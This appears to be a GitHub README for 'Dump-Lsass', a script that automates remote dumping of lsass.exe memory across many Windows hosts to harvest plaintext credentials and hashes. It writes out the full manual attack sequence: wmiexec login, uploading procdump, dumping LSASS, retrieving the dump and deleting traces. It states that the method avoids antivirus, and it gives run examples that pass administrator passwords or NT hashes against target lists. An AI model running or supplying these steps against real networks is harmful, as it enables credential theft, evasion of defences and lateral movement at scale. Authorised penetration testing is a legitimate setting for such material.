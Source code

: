 # Dump-Lsass
Automates the manual process of using wmiexec and procdump to dump Lsass and plaintext creds or hashes across a large number of systems.

To dump lsass.exe process memory without triggering antivirus, I would normally use Impacket wmiexec.py and procdump64.exe as follows:

```
wmiexec.py domain/user@target
put procdump64.exe
procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
get lsass.dmp
del lsass.dmp
del procdump64.exe
exit
```
That's a very manual and time-consuming process when multiplied by many target hosts.

Prerequisites: Procdump64.exe must be in the same directory as the script, impacket at path /opt/impacket, smbclient, pypykatz.


To install prereqs:

Download procdump64.exe to the same directory as the script.

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket

cd /opt/impacket && pip install -r requirements.txt && python setup.py install

apt install -y smbclient

pip3 install pypykatz

Run examples:
```
python3 dumpLsass.py -d CONTOSO -u administrator -p Passw0rd\! -f </path/to/file with target IP addresses or hostnames.txt>
python3 dumpLsass.py -d CONTOSO -u administrator -H <NT Hash> -f </path/to/file with target IP addresses or hostnames.txt>
```
